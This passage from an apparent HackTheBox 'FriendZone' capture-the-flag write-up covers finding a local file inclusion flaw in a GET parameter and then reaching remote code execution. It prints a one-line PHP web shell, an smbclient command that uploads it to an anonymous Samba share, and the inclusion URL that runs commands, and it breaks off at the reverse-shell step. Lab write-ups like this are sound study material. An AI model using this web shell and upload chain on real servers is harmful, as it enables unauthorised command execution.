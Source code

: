![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-29-HackTheBox-FriendZone/2021-12-29-HackTheBox-FriendZone%2007:47:20.png)

Always when we see that we can pass files over the get request, possibly it's vulnerable to LFI. So let's send it to burp to test out

# LFI

Once on burp, we can start digging it out

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-29-HackTheBox-FriendZone/2021-12-29-HackTheBox-FriendZone%2007:49:43.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-29-HackTheBox-FriendZone/2021-12-29-HackTheBox-FriendZone%2007:50:11.png)

And on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#wrapper-phpfilter)

We found a way to read files on the server

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-29-HackTheBox-FriendZone/2021-12-29-HackTheBox-FriendZone%2008:06:14.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-29-HackTheBox-FriendZone/2021-12-29-HackTheBox-FriendZone%2008:06:25.png)

And we read some files to understand how the server works... The main ideia here is to upload a php malicious file on the samba server, and then call it with the LFI we have... Giving remote code execution to us

# RCE

So, let's upload a malicious php file in the samba share

cmd.php
```php
<?php system($_REQUEST['cmd']); ?>
```

And the command we wil use

```sh
smbclient -N //10.10.10.123/Development -c 'put cmd.php cmd.php'
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-29-HackTheBox-FriendZone/2021-12-29-HackTheBox-FriendZone%2011:31:44.png)

Done. We put the php file there, now we must need to get the RCE

```
https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../../etc/Development/cmd&cmd=id
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-29-HackTheBox-FriendZone/2021-12-29-HackTheBox-FriendZone%2011:32:39.png)

And now a reverse shell
